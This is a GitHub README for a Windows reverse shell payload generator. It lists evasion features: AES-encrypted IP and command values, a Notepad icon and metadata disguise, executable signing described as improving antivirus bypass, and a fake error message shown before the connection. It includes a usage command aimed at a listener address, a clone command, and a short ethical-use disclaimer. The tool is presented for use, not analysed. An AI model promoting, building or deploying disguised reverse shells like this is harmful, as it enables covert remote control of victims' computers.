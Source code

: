# 🛡️ AES Encrypted Payload Generator

This tool generates a Windows reverse shell payload with **AES-encrypted IP and command values**, compiles it with optional **Notepad disguise**, and supports automatic cleanup.
  
---
  
## ⚙️ Features

- 🔐 AES (ECB mode) encryption for sensitive data
- 🧩 Dynamic payload generation in C
- 🪟 Native Windows API usage (with manual `GetProcAddress` resolution)
- 🎭 Optional Notepad spoofing (icon + metadata)
- 🛠️ Easy cross-compilation via MinGW (Linux)
- ⏱️ Desynchronous connection (Around 30s)
  
---
  
## 🚀 Usage

### Basic Example
```bash
python3 payload_gen.py --ip 192.168.1.100 --port 4444 --notepad --sign
```
  
### Arguments
  
**--ip** : IP address of the reverse shell listener (required).  
**--port** : TCP port for the connection (default: 49557).  
**--cmd** : Command to execute (default: cmd.exe).  
**--notepad** : Mimic Notepad metadata and icon.  
**--keep** : Keep temporary files (.c, .rc, .res) after building.  
**--sign** : Uses sign_exe.py to sign the exe, improving AVs bypass.  
**--gui** : Display a error message on launch, waiting for user input before starting connection.
  
---
  
## Download
```bash
git clone https://github.com/WisePlace/Payload-Generator.git
```
  
---
  
## Disclaimer
  
**This project is provided strictly for educational and ethical security research purposes.  
Unauthorized use against third-party systems is illegal. You are solely responsible for how you use this code.**  
